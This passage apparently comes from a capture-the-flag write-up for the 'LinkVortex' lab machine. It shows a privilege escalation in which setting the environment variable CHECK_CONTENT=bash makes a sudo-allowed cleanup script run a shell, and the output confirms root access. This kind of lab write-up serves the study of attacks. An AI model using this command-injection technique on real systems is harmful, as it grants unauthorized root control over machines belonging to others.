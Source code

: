 Now we run the exploit .
```bash
bob@linkvortex:~$ CHECK_CONTENT=bash sudo /usr/bin/bash /opt/ghost/clean_symlink.sh file2.png
Link found [ file2.png ] , moving it to quarantine
root@linkvortex:/home/bob# whoami
root
root@linkvortex:/home/bob# id
uid=0(root) gid=0(root) groups=0(root)
root@linkvortex:/home/bob# 

```

